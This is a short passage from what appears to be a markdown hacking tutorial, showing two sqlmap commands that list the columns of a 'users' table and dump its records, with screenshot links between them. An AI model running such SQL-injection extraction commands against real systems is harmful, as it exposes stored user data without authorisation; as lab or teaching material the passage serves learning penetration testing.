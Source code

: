 ![image-20211015153923487](images/image-20211015153923487.png)

**Get the columns**

```
sqlmap -r request.txt -D users -T users --columns 
```

![image-20211015154812141](/home/sherwinowen/Documents/my_tutorials/hackers_playbook/images/image-20211015154812141.png)



**Get records/ Extract data** 

```
sqlmap -r request.txt -D users -T users --columns --dump
```

![image-20211015155527327](images/image-20211015155527327.png)

